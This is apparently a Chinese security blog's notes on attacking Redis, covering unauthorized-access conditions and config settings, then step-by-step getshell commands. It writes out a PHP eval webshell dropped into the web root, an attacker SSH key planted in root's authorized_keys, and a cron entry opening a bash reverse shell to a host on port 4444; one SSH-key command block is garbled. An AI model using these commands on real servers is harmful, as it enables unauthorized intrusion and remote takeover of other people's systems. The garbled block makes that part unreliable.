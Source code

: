 ```yaml
---
title: redis渗透
tags: sec
excerpt_separator: <!--more-->

---
```


<!--more-->

# 1. 基本信息

> 1.以内存作为数据存储介质,读写数据的效率高
> 2.储存的数据是持久化,断电重启,数据不会丢失 
> 3.存储分为内存存储,磁盘存储和log文件 
> 4.可以从磁盘重新将数据加载到內存中,也可以通过配置文件对其进行配置,能实现持久化 
> 5.支持主从模式,可以配置集群,利于支撑大型的项目。

redis默认端口 6379 
sentinel.conf 配置器端口26379

# 2.redis未授权访问

## 利用条件

3.2.0 版本后 redis.conf 配置文件中两个比较重要的参数 `bind` 以及 `protected-mode`

以下情况可以满足未授权访问 Redis

- 未开启登录认证(即没有配置登录密码，默认即可满足)，将 redis 绑定到了0.0.0.0(设置bind 参数为 0.0.0.0)
- 未开启登录认证(即没有配置登录密码，默认即可满足)，未绑定 redis 到任何地址(将 bind 参数注释掉)，关闭保护模式(设置 protected-mode 的参数为no)

1.配置登录策略导致任意机器都可以登录 redis

2.未设置密码或者设置弱口令

![image-20220208172537259](https://raw.githubusercontent.com/aloha1024/image/main/imgimage-20220208172537259.png)

| 配置项                   | 说明                                                         |
| ------------------------ | ------------------------------------------------------------ |
| port 6379                | 指定 Redis 监听端口，默认端口为 6379                         |
| bind 127.0.0.1           | 绑定的主机地址，格式为bind后面接IP地址，可以同时绑定在多个IP地址上，IP地址之间用空格分离，如 bind 192.168.1.100 10.0.0.1，表示同时绑定在192.168.1.100和10.0.0.1两个IP地址上。如果没有指定bind参数，则绑定在本机的所有IP地址上。 |
| save <seconds> <changes> | 格式为 save <秒数> <变化数>，表示在指定的秒数内数据库存在指定的改变数时自动进行备份也就是指定在多长时间内，有多少次更新操作，就将数据同步到数据文件，可以多个条件配合 |
| dbfilename dump.rdb      | 指定本地数据库文件名，默认值为 dump.rdb                      |
| dir ./                   | 指定本地数据库存放目录，指明 Redis 的工作目录为设定的目录，Redis 产生的备份文件将放在这个目录下 |
| requirepass foobared     | 设置 Redis 连接密码，如果配置了连接密码，客户端在连接 Redis 时需要通过 AUTH <password> 命令提供密码，默认关闭 |
| protected-mode           | redis3.2 版本后新增 protected-mode 配置，默认是 yes ，用于设置外部网络连接 redis 服务。关闭 protected-mode 模式，此时外部网络可以直接访问。开启 protected-mode 保护模式，需配置 bind ip 或者设置访问密码。 |



# 3.常见getshell方法

**1.通过向Web目录中写webshell的方式进行getshell**

Redis 存在未授权访问的情况下，也开启了 web 服务，知道 web 目录的路径，具有文件读写权限，就可以通过 redis 在指定的 web 目录下写入shell文件。

```shell
config set dir /var/www/html/ 
config set dbfilename shell.php
set xxx "<?php eval($_REQUEST[cmd]);?>" 
# set xxx "\r\n\r\n<?php eval($_REQUEST['cmd']);?>\r\n\r\n"   
#\r\n\r\n 代表换行的意思，用redis写入文件的会自带一些版本信息，如果不换行可能会导致无法执行
save
```

**2.通过写SSH key的方式进行getshell**

Redis 存在未授权访问的情况下，开启了 ssh 服务，在数据库中插入一条数据，将本机的公钥作为 value，key 值随意，然后可以通过修改数据库的保存路径为 `/root/.ssh` 和保存文件名为 `authorized.keys` ，备份数据库之后就可以在服务器端的 `/root/.ssh` 下生成一个key

```shell
config set dir /root/.ssh/config 
set dbfilename authorized_keysset xxx "ssh-rsa xxxrsaxxx root@root" 
save
```

```shell
(echo -e "\n\n"; cat /home/root/.ssh/id_rsa.pub; echo -e "\n\n") > key.txt
cat key.txt | redis-cli -h 192.168.1.1 -x set xxx
redis-cli -h 192.168.1.1    
> config set dir /root/.ssh/    
> config set dbfilename authorized_keys    
> save
ssh -i /home/root/.ssh/id_rsa root@192.168.1.1
```

出现报错`(error) ERR Changing directory: No such file or directory` 

原因是目标服务器上不存在这个目录,`.ssh`是记录密码信息的文件夹,如果 root 用户没有登录过,就没有 `.ssh` 文件夹

使用 `ssh localhost` 或者手动创建`mkdir .ssh` 目录

**3.通过写corntab计划任务的方式进行getshell**

centos利用条件 关闭防火墙`service firewalld stop`

```shell
config set dir /var/spool/cron/ 
config set dbfilename root
set xxx "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/192.168.1.1/4444 0>&1\n\n"
save
```

ubuntu无法利用 原因如下

> redis默认写文件后是 644 权限
>
> 但是 Ubuntu 要求执行定时任务文件 `/**var**/spool/cron/crontabs/<username>` 权限必须是 600 才会执行
>
> 否则会报错 (root) INSECURE MODE (mode 0600 expected)
>
> 而 Centos 的定时任务文件 `/var/spool/cron/<username>` 权限 644 也可以执行

> redis 保存 RDB 会存在乱码，在 Ubuntu 上会报错，而在 Centos 上不会报错。

ubuntu 和 centos的crontrab文件位置也不同

> ```
> + Centos 的定时任务文件在 `/var/spool/cron/<username>`
> + Ubuntu 的定时任务文件在 `/var/spool/cron/crontabs/<username>`
> ```

利用计划任务反弹shell

​	本地Redis主从复制RCE反弹shell

redis密钥登陆ssh

利用主从复制rce

